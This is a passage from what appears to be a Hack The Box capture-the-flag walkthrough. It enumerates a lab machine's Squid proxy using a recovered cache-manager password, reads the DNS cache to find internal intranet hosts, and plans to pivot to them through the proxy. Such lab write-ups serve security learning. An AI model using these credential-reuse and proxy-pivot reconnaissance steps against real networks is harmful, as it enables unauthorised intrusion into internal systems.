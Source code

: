  5min                   5 Minute Average of Counters            protected
 60min                  60 Minute Average of Counters           protected
 utilization            Cache Utilization                       disabled
 histograms             Full Histogram Counts                   protected
 active_requests        Client-side Active Requests             disabled
 username_cache         Active Cached Usernames                 disabled
 openfd_objects         Objects with Swapout files open         disabled
 store_digest           Store Digest                            disabled
 store_log_tags         Histogram of store.log tags             disabled
 storedir               Store Directory Stats                   disabled
 store_io               Store IO Interface Stats                disabled
 store_check_cachable_stats     storeCheckCachable() Stats              disabled
 refresh                Refresh Algorithm Statistics            disabled
 delay                  Delay Pool Levels                       disabled

Invoking the fqdncache action returns the DNS cache and IP resolution statistics.

curl --user 'cachemgr_passwd:Thah$Sh1' http://10.10.10.200:3128/squid-internal-mgr/fqdncache
FQDN Cache Statistics:
FQDNcache Entries In Use: 13
FQDNcache Entries Cached: 11
FQDNcache Requests: 392
FQDNcache Hits: 0
FQDNcache Negative Hits: 58
FQDNcache Misses: 334
FQDN Cache Contents:

Address                                       Flg TTL Cnt Hostnames
10.10.15.31                                    N  -34126   0
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
10.10.14.43                                    N  -25976   0
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
10.10.14.186                                   N  -2889   0


We can see a few interesting things, we are aware that connections are allowd through to the internal netwrok of 172.16.0.0/12 (that's a big IP Space). Therefore from the above result we can see a few interesting things:

172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
172.17.0.1                                      H -001   1 intranet.unbalanced.htb


All of these proxies are in the 172.16.0.0/12 network range, we can access all of them using the proxy. Lets do it. 

All of these hosts have the same content and the login functionality seen earlier, and simple testing on the login form indicates that it does not seem vulernable to SQL injections. Lets try to access intranet-host1.unblanaced.htb and see if it exists on the network.

